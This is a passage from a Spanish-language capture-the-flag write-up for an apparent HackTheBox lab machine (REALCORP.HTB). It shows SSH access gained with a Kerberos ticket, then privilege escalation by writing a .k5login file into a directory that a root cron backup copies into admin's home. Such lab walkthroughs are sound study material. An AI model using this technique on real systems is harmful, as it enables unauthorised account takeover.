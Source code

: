 Vemos que un fichero 
```bash
 /tmp/krb5cc_0 
```
 a sido creado y ahora podemos connectar por ssh 

```bash
ssh j.nakazawa@10.10.10.224
```

Ya estamos en la maquina 10.10.10.224 y podemos leer la flag.
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
cat /etc/crontab
```

Aqui vemos que hay una tarea que se ejecuta por el usuario admin cada minuto. El script es 
```bash
 /usr/local/bin/log_backup.sh 
```

Este archivo basicamente copia lo que hay en el directorio 
```bash
 /var/log/squid 
```
 en el directorio 
```bash
 /home/admin 
```
.

```bash
cd /home/admin
cd /var/log/
ls -la | grep squid
```

Vemos que podemos escribir en el /var/log/squid pero no podemos entrar en el /home/admin.

Buscando por internet, vemos que existe un fichero que se puede poner en el directorio del usuario y que permite dar
conneccion con kerberos. Este fichero seria .k5login.


```bash
cd /var/log/squid/
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

Esperamos un poco y lanzamos desde nuestra maquina de atacante una conneccion ssh

```bash
ssh admin@10.10.10.224
```
